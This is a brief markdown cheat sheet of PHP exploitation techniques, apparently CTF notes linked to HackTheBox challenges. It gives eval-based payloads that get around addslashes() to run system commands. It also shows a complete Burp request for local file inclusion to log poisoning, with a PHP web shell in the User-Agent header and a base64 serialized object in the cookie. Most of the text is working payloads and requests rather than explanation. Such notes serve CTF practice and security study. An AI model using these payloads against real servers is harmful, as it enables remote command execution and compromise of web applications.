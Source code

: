 # addslashes()
This function escapes single & double quotes.
```php
# Assuming that the variable is passed to eval
${system($_GET[1])}&1=whoami;
# If it's not passed to eval
${eval($_GET[1])}&1=system($_GET[2]);&2=whoami;
```
- Challenge: https://app.hackthebox.com/challenges/lovetok
> **References:** 
> https://www.programmersought.com/article/30723400042/

# include() 
Only generates a warning, i.e., E_WARNING, and continue the execution of the script.
**Case**:  From LFI to log poisoning
- Burpsuite request example:
```txt
# Cookie Serialization exploit
# O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}

GET /?c=cat+/flag_qlvM8 HTTP/1.1
Host: 178.128.163.152:30522
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
- Challenge: https://app.hackthebox.com/challenges/224

> **References:**
> https://www.hackingarticles.in/apache-log-poisoning-through-lfi/